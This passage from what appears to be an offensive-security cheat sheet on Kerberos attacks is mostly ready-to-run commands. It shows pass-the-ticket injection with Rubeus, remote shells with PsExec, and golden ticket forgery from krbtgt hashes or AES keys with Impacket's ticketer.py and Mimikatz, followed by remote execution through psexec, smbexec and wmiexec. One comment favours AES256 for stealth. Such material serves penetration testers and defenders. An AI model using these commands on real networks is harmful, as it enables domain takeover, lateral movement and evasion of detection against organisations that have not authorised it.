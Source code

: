 Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
```shell
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

## Golden ticket

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# To generate the TGT with NTLM
python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# To generate the TGT with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```


With [Mimikatz](https://github.com/gentilkiwi/mimikatz):
```shell
# To generate the TGT with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name>

# To generate the TGT with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name>

# To generate the TGT with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name>

# Inject TGT with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```
